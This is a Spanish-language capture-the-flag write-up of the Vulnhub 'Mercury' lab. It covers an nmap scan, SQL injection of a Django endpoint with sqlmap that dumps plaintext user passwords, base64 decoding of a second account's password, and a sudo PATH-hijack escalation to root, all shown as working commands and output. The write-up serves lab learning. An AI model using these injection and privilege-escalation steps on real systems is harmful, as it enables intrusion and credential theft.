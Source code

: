 ```yaml
---
title: "Vulnhub #4: Mercury"
description: Pentesting a máquina Mercury en Vulnhub
date: 2025-05-09
scheduled: 2025-05-09
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la maquina vulnerable desde [vulnhub](https://www.vulnhub.com/entry/the-planets-mercury,544/)

## Datos

IP Atacante: 192.168.0.25
IP Victima: 192.168.0.31

## Recon

### Nmap

```
datadiego@~ nmap -Pn 192.168.0.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-11 10:50 CET
Nmap scan report for 192.168.0.31
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

## Web

En la maquina hay un servidor http, en el index solo hay un mensaje en plano:

```
Hello. This site is currently in development please check back later.
```

Existe un robots.txt:

```
User-agent: * 
Disallow: /
```

Si intentamos entrar a cualquier otra pagina que no existe:

```

Page not found (404)
Request Method: 	GET
Request URL: 	http://192.168.0.31:8080/hello

Using the URLconf defined in mercury_proj.urls, Django tried these URL patterns, in this order:

    [name='index']
    robots.txt [name='robots']
    mercuryfacts/

The current path, hello, didn't match any of these.

You're seeing this error because you have DEBUG = True in your Django settings file. Change that to False, and Django will display a standard 404 page.
```

Ahora sabemos que el servidor es un django, y que existe un endpoint `mercuryfacts`.

Cuando accedemos a /mercuryfacts encontramos otros dos endpoints:

- /mercuryfacts/todo
- /mercuryfacts/:number

En la lista de /todo:
```
 Still todo:

    Add CSS.
    Implement authentication (using users table)
    Use models in django instead of direct mysql call
    All the other stuff, so much!!!
```

Lanzamos sqlmap:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --dbs --batch
```

Encuentra lo siguiente:

```
sqlmap identified the following injection point(s) with a total of 1876 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: error-based
    Title: MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)
    Payload: http://192.168.0.31:8080/mercuryfacts/GTID_SUBSET(CONCAT(0x7170706b71,(SELECT (ELT(7619=7619,1))),0x7170707a71),7619)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: http://192.168.0.31:8080/mercuryfacts/(CASE WHEN (5772=5772) THEN SLEEP(5) ELSE 5772 END)

    Type: UNION query
    Title: MySQL UNION query (random number) - 1 column
    Payload: http://192.168.0.31:8080/mercuryfacts/-9431 UNION ALL SELECT CONCAT(0x7170706b71,0x746152665350437975484f575550785542644a64465743704a555253535467456c67735377476378,0x7170707a71)#
---
[05:11:02] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[05:11:02] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

[05:11:02] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.0.31'

[*] ending @ 05:11:02 /2025-02-11/
```

Sacamos datos de las tablas con:

```
sqlmap -u http://192.168.0.31:8080/mercuryfacts/ --current-db -D mercury --batch --dump-all
```

Encontramos lo siguiente:

```
[05:50:50] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

Ningun usuario funciona en SSH excepto `webmaster`

Encontramos la user_flag.txt:

```
user_flag_8339915c9a454657bd60ee58776f4ccd
```

En `/etc/passwd` encontramos otro usuario:
linuxmaster:x:1002:1002:,,,:/home/linuxmaster:/bin/bash

Encontramos el hash de ambos:

```
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

Descodificamos la contraseña:

```
webmaster@mercury:~/mercury_proj/mercury_proj$ echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```

Entramos por SSH o mediante `su linuxmaster` y comprobamos permisos con sudo -l:

```
linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

Comprobamos el archivo:

```
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh 
#!/bin/bash
tail -n 10 /var/log/syslog
```

El comando se esta ejecutando directamente, sin especificar la ruta absoluta, por lo que es vulnerable a `path hijacking`.

Podemos hacer lo siguiente:

```
linuxmaster@mercury:~$ mkdir /tmp/malito
```

Dentro del directorio, creamos un `.sh` que ejecute una shell con nano:

```
#!/bin/bash
/bin/bash
```

Damos permisos con `chmod +x /tmp/malito/tail`.
Exportamos la variable con `export PATH=/tmp/malito:$PATH`
Ejecutamos el script utilizando la variable de entorno con `sudo --preserve-env=PATH /usr/bin/check_syslog.sh`

Obtenemos acceso a root!

```
linuxmaster@mercury:~$ cd /tmp/malito/
linuxmaster@mercury:/tmp/malito$ ls
linuxmaster@mercury:/tmp/malito$ nano tail
linuxmaster@mercury:/tmp/malito$ ls
tail
linuxmaster@mercury:/tmp/malito$ chmod +x /tmp/malito/tail 
linuxmaster@mercury:/tmp/malito$ export PATH=/tmp/malito:$PATH
linuxmaster@mercury:/tmp/malito$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh 
[sudo] password for linuxmaster: 
root@mercury:/tmp/malito# whoami
root
root@mercury:/tmp/malito# 
```
